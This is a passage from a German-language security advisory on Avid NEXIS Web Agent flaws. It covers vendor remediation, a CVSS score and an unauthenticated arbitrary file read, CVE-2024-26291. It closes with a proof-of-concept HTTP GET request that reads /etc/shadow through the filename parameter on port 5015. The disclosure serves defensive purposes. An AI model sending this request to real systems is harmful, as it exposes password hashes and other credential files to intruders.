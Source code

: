 ### Behebung

Die offizielle Abhilfemaßnahme von Avid für dieses Problem lautet:
"The NEXIS Web Agent input validation has been resolved in the newest version of NEXIS 2024.6.0. Avid engineering recommends you upgrade to NEXIS 2024.6.0 (available for download on June 18, 2024) to resolve this issue.
If you are unable to update your NEXIS release at this time, you can mitigate the issue by configuring a firewall rule for the Storage Manager Agent (Port 5015) to whitelist access into NEXIS. " [source: June 20th 2024 Update](https://kb.avid.com/pkb/articles/troubleshooting/en239659).

DriveByte empfiehlt, sowohl auf die neueste Version zu aktualisieren als auch den Zugriff auf den Agent-Port einzuschränken. Dies beruht auf der Tatsache, dass es eine weitere (halb offizielle) Möglichkeit gibt, mit einem integrierten Dienstprogramm im Agenten Code auf dem Host auszuführen.

### CVSS
DriveByte hat die folgende CVSS 4.0 Basismetrik errechnet:

8.7 (CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:H/VI:H/VA:H/SC:N/SI:N/SA:N)


## Unauthenticated Arbitrary File Read (Linux/Windows): CVE-2024-26291

### Beschreibung

Die Anwendung ist anfällig für "Unauthenticated Arbitrary File Read ", also das auslesen von beliebigen Dateien. Dies betrifft sowohl den Agenten, der auf Linux als auch den, der auf Windows installiert ist. Der Parameter Pfad im Parameter `filename` wird nicht validiert. Dadurch kann jeder (eine Authentifizierung ist nicht erforderlich) beliebige Dateien lesen. Da die Anwendung standardmäßig mit den höchsten Rechten (root/NT_AUTHORITY SYSTEM) ausgeführt wird, sind Angreifer in der Lage, kritische Dateien wie `/etc/shadow` zu erlangen.

### Proof of Concept

Die Schwachstelle kann mit folgender `GET`-Anfrage ausgelöst werden:

```http
GET /logs?filename=%2Fetc%2fshadow HTTP/1.1
Host: 192.168.40.141:5015
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://192.168.40.141:5015/agent?context=5815&r=logs&request=dump_usrv_log
Accept-Encoding: gzip, deflate, br
Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=0, i
Connection: close
```

